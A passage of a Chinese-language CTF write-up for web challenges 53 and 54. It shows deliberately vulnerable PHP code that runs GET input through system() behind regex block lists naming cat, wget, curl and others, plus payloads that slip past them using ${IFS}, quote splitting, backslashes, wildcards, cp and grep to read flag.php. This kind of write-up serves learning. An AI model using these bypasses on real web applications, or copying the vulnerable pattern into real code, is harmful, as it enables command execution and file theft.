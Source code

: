 `?c=ca\t${IFS}fla''g.php||`发现...假web

找根目录看到了真的flag，继续**cat**就行

#### 53

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

和上题相比好像就把后面的回显吞噬删了

直接`?c=ca\t${IFS}fla''g.php`就行

#### 54

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

这种过滤是无论如何都不能按顺序出现这个词`ca\t`不能用`cabqbqbqt`也不行

不知道为什么`?c=cp${IFS}fl?g.php${IFS}a.txt`成功不了(应该是构成了上面某个词)

换成`?c=cp${IFS}f???.php${IFS}z.txt`就可以了

也可以用新的办法`grep`   **搜索命令**

直接`?c=grep${IFS}show${IFS}fl?g.php`

在flag.php中搜索有show的一行并输出

+++

